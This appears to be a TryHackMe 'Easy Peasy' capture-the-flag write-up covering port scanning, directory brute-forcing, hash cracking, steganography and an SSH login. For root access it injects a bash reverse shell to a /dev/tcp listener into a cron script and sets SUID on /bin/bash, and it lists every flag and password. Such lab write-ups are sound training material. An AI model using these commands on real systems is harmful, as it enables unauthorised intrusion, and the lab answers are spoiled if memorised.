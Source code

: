 # TryHackMe — Easy Peasy Write-up

📝 **Overview**

- Room: Easy Peasy  
- Difficulty: Easy  
- Tags: Enumeration, Web Exploitation, Steganography, Privilege Escalation  

---

## 🔍 Enumeration with Nmap

Scanning the target machine:

```bash
sudo nmap -sC -sV -Pn -p- {target_IP}
```

Result:  
- 80/tcp → nginx 1.16.1  
- 6498/tcp → ssh  
- 65524/tcp → apache  

### Answers
1. How many ports are open? → **3**  
2. Version of Nginx? → **1.16.1**  
3. Service on the highest port? → **Apache**

---

## 💥 Exploiting the Machine

### Task 1 – Flag 1
Using **GoBuster**:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://{IP}:80/
```

Found directory `/hidden` → `/whatever`.  
In the page source code we discovered a hidden hash.  
Decoded it using **CyberChef** → `From Base62`.  

✅ Flag 1 → **flag{f1rs7_fl4g}**

---

### Task 2 – Flag 2
Open:

```
http://{IP}:65524/robots.txt
```

Inside we find a strange User-Agent. Decoded it on md5hashing.net → got the flag.  

✅ Flag 2 → **flag{1m_s3c0nd_fl4g}**

---

### Task 3 – Flag 3
Check page source:

```
http://{IP}:65524
```

A hash was found → decoded with Base62.  

✅ Flag 3 → **flag{9fdafbd64c47471a8f54cd3fc64cd312}**  
Hidden path: `/n0th1ng3ls3m4tt3r`

---

### Task 4 – Hash Cracking
Save the hash into `password.txt`.  
Crack it using **John the Ripper** with the custom wordlist `easypeasy.txt`:

```bash
john --format=gost --wordlist=easypeasy.txt password.txt
```

Password: **mypasswordforthatjob**

---

### Task 5 & 6 – Steganography
In the web directory we found **binarycodepixarbay.jpg**.  
Check it with **stegseek**:

```bash
stegseek binarycodepixarbay.jpg easypeasy.txt
```

Result: extracted `secrettext.txt` with username and password.  

- Username: **boring**  
- Password (decoded from binary): **iconvertedmypasswordtobinary**

---

### Task 7 – User Flag
Connect via SSH:

```bash
ssh boring@{IP} -p 6498
```

Enter the password → access granted.  
Inside the home directory we find `user.txt`.  
The flag was encoded in ROT13 → decoded with CyberChef.  

✅ User Flag → **flag{n0wits33msn0rm4l}**

---

## 🚀 Privilege Escalation

Upload and run **linpeas.sh**.  
Found script `.mysecretcronjob.sh`. It had only comments, so we injected a reverse shell from [revshells.com](https://www.revshells.com/).

Example payload:

```bash
bash -i >& /dev/tcp/{Your_IP}/4242 0>&1
```

Start listener:

```bash
nc -lvnp 4242
```

When the connection popped, escalate privileges:

```bash
chmod +s /bin/bash
/bin/bash -p
```

Now we are root.  
In the root directory we find `.root.txt`.  

✅ Root Flag → **flag{R00t_Acc3ss_C0mpl3t3}**

---

## ✅ Summary of Flags

1. flag{f1rs7_fl4g}  
2. flag{1m_s3c0nd_fl4g}  
3. flag{9fdafbd64c47471a8f54cd3fc64cd312}  
4. Password cracked → mypasswordforthatjob  
5. stegseek → secrettext.txt (user: boring, pass: iconvertedmypasswordtobinary)  
6. User flag → flag{n0wits33msn0rm4l}  
7. Root flag → flag{R00t_Acc3ss_C0mpl3t3}

---

🎯 Machine completed successfully!  
